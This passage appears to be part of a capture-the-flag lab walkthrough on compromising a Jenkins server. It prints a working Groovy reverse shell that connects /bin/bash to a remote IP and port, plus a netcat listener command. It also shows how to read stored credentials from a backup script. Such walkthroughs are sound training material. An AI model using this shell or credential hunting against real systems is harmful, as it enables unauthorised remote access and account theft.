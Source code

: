 ```groovy
String host="10.10.137.59";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![jenkins-3|500](images/thm-aoc-2023-day-9-12/jenkins-3.png)

Before running the script we have to set up a listener to catch the incoming connection.

```bash
nc -nvlp 6996
```

![jenkins-4|360](images/thm-aoc-2023-day-9-12/jenkins-4.png)

If we navigate to the `/opt/scripts` directory we notice a `backup.sh` script. This script contains the credentials for user `tracy`. The backup script uses SCP. This means that SSH will also be enabled on the system.

```bash
cd /opt/scripts
cat backup.sh
```
